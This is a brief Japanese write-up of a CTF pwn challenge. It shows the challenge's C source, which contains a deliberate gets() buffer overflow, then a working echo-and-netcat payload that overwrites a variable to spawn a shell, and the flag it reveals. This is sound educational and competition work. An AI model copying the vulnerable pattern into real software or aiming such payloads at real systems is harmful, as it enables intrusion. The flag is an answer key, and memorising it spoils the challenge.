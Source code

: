 # coffer-overflow-1:pwn:282pts
The coffers keep getting stronger! You'll need to use the source, Luke.  
nc 2020.redpwnc.tf 31255  
[coffer-overflow-1](coffer-overflow-1)　　　　[coffer-overflow-1.c](coffer-overflow-1.c)  

# Solution
coffer-overflow-1とソースが与えられる。  
ソースは以下のようになっている。  
```c:coffer-overflow-1.c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
codeの中身を書き換えればいいようだ。  
nameをオーバーフローさせればよいことがすぐにわかる。  
0xcafebabeにしてやればいいのでエンディアンに注意しながら調整すると以下でシェルが得られた。  
lsしてflag.txtをcatする。  
```bash
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca"; cat) | nc 2020.redpwnc.tf 31255
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

## flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}